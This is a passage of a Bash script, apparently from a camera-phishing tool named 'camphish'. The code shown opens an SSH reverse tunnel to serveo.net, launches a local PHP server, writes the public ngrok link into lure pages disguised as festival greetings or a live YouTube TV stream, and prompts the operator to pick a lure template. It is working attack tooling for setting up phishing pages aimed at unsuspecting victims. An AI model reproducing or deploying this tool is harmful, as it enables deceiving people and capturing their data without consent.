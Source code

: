 done 

}


server() {

command -v ssh > /dev/null 2>&1 || { echo >&2 "I require ssh but it's not installed. Install it. Aborting."; exit 1; }

printf "\e[1;77m[\e[0m\e[1;93m+\e[0m\e[1;77m] Starting Serveo...\e[0m\n"

if [[ $checkphp == *'php'* ]]; then
killall -2 php > /dev/null 2>&1
fi

if [[ $subdomain_resp == true ]]; then

$(which sh) -c 'ssh -o StrictHostKeyChecking=no -o ServerAliveInterval=60 -R '$subdomain':80:localhost:3333 serveo.net  2> /dev/null > sendlink ' &

sleep 8
else
$(which sh) -c 'ssh -o StrictHostKeyChecking=no -o ServerAliveInterval=60 -R 80:localhost:3333 serveo.net 2> /dev/null > sendlink ' &

sleep 8
fi
printf "\e[1;77m[\e[0m\e[1;33m+\e[0m\e[1;77m] Starting php server... (localhost:3333)\e[0m\n"
fuser -k 3333/tcp > /dev/null 2>&1
php -S localhost:3333 > /dev/null 2>&1 &
sleep 3
send_link=$(grep -o "https://[0-9a-z]*\.serveo.net" sendlink)
printf '\e[1;93m[\e[0m\e[1;77m+\e[0m\e[1;93m] Direct link:\e[0m\e[1;77m %s\n' $send_link

}


payload_ngrok() {

link=$(curl -s -N http://127.0.0.1:4040/api/tunnels | grep -o "https://[0-9a-z]*\.ngrok.io")
sed 's+forwarding_link+'$link'+g' template.php > index.php
if [[ $option_tem -eq 1 ]]; then
sed 's+forwarding_link+'$link'+g' festivalwishes.html > index3.html
sed 's+fes_name+'$fest_name'+g' index3.html > index2.html
else
sed 's+forwarding_link+'$link'+g' LiveYTTV.html > index3.html
sed 's+live_yt_tv+'$yt_video_ID'+g' index3.html > index2.html
fi
rm -rf index3.html

}

select_template() {
if [ $option_server -gt 2 ] || [ $option_server -lt 1 ]; then
printf "\e[1;93m [!] Invalid tunnel option! try again\e[0m\n"
sleep 1
clear
banner
camphish
else
printf "\n-----Choose a template----\n"    
printf "\n\e[1;92m[\e[0m\e[1;77m01\e[0m\e[1;92m]\e[0m\e[1;93m Festival Wishing\e[0m\n"
printf "\e[1;92m[\e[0m\e[1;77m02\e[0m\e[1;92m]\e[0m\e[1;93m Live Youtube TV\e[0m\n"
default_option_template="1"
read -p $'\n\e[1;92m[\e[0m\e[1;77m+\e[0m\e[1;92m] Choose a template: [Default is 1] \e[0m' option_tem
option_tem="${option_tem:-${default_option_template}}"
if [[ $option_tem -eq 1 ]]; then
read -p $'\n\e[1;92m[\e[0m\e[1;77m+\e[0m\e[1;92m] Enter festival name: \e[0m' fest_name
fest_name="${fest_name//[[:space:]]/}"